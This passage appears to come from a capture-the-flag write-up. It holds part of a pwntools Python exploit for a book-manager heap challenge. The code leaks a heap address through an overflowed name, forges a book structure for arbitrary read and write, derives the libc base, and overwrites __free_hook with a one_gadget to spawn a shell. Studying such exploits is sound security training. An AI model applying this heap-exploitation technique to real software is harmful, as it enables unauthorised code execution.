 ```python
	io.readuntil(": ")
	io.sendline(name)

def editbook(book_id, new_des):
	io.readuntil("> ")
	io.sendline("3")
	io.readuntil(": ")
	io.writeline(str(book_id))
	io.readuntil(": ")
	io.sendline(new_des)

def deletebook(book_id):
	io.readuntil("> ")
	io.sendline("2")
	io.readuntil(": ")
	io.sendline(str(book_id))

createname("A" * 32)
createbook(128, "a", 32, "a")
createbook(0x21000, "a", 0x21000, "b")


book_id_1, book_name, book_des, book_author = printbook(1)
book1_addr = u64(book_author[32:32+6].ljust(8,'\x00'))
log.success("book1_address:" + hex(book1_addr))

payload = p64(1) + p64(book1_addr + 0x38) + p64(book1_addr + 0x40) + p64(0xffff)
editbook(book_id_1, payload)
changename("A" * 32)

book_id_1, book_name, book_des, book_author = printbook(1)
book2_name_addr = u64(book_name.ljust(8,"\x00"))
book2_des_addr = u64(book_des.ljust(8,"\x00"))
log.success("book2 name addr:" + hex(book2_name_addr))
log.success("book2 des addr:" + hex(book2_des_addr))
libc_base = book2_des_addr - 0x5b9010
log.success("libc base:" + hex(libc_base))

free_hook = libc_base + libc.symbols["__free_hook"]
one_gadget = libc_base + 0x4f322 # 0x4f2c5 0x10a38c 0x4f322
log.success("free_hook:" + hex(free_hook))
log.success("one_gadget:" + hex(one_gadget))
editbook(1, p64(free_hook) * 2)
editbook(2, p64(one_gadget))

deletebook(2)

io.interactive()
```

#### 簡潔方案
